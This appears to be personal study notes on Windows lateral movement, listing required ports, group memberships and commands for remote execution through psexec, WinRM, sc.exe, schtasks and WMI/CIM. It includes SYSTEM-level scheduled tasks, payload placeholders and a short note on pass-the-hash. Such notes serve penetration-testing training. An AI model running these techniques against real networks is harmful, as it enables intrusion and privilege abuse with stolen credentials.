 # About UAC & Admins:
- The differences we are interested in are restrictions imposed by User Account Control (UAC) over local administrators (except for the default Administrator account). By default, **local administrators won't be able to remotely connect to a machine** and perform administrative tasks unless using an interactive session through **RDP**. Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators will be logged in with a filtered medium integrity token, preventing the account from doing privileged actions. The only local account that will get full privileges is the default Administrator account.
- **Domain accounts with local administration privileges** won't be subject to the same treatment and will be logged in with **full administrative privileges**.



### Runas is usefull:
    + runas.exe /netonly /user:<domain>\<username> cmd.exe

# 1-Psexec:
- **Required_1**: Ports: 445/TCP (SMB)
- **Required_2**: Group Memberships: Administrators
- **command**
```ps1
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

# 2-WinRM(create process):
- **Required_1**: Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required_2**: Group Memberships: Remote Management Users
- **command option1**
```ps1
#To connect to a remote Powershell session from the command line, we can use the following command
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
- **command option2**
```ps1
#We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object:
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
#Options1_ Interactive session:
Enter-PSSession -Computername TARGET -Credential $credential
#Options2_ run Script:
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


# 3-SC.exe
**create services remotely**
- **Required_1**: Ports:
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required_2**: Group Memberships: Administrators
- **command**
```ps1
# create Service
sc.exe \\TARGET create ServiceName binPath= "<command/payload to execute>" start= auto 
sc.exe \\TARGET start ServiceName
# kill Service
sc.exe \\TARGET stop ServiceName
sc.exe \\TARGET delete ServiceName
``` 

# 4-creating Scheduled Task remotely:
```ps1
schtasks /s TARGET /RU "SYSTEM" /create /tn "TaskName" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "TaskName" 

# Kill Schedule task:
schtasks /S TARGET /TN "TaskName" /DELETE /F
```

# 5-Fuckin WMI:
- **Required**:
    - **DCOM**: RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP
    - **Wsman**: WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
- First we need to provide objects for connecting to WMI:
```ps1
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
## 5.1-Remote Process creation Using WMI:
- Ports:
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators
- **command**
```ps1
$Command = "powershell.exe -Command <command to execute>";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
# you can also do this
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c <command to execute>" 
```
## 5.2-Creating Services Remotely Using WMI:
- Ports:
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators
- **command**
```ps1
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "ServiceName";
DisplayName = "ServiceName";
PathName = "<command/path to executable>";
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'ServiceName'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

# to Kill the service:
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## 5.3-Creating Scheduled Tasks Remotely Using WMI:
- Ports:
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators
- **command**
```ps1
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c <command>"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "TaskName"
Start-ScheduledTask -CimSession $Session -TaskName "TaskName"

# to kill The Task:
Unregister-ScheduledTask -CimSession $Session -TaskName "TaskName"
```

## 5.4-Installing MSI packages Using WMI:
- Ports:
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators
- **command**
```ps1
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
# on legacy systems:
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

# 6-Alternative for plain-text passwords:
- **Note**: 
    - the NTLM challenge sent during authentication can be responded to just by knowing the password hash.
    - This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, 
    - if the Windows domain is configured to use NTLM authentication, we can Pass-the-Hash (PtH) and authenticate successfully.
- 
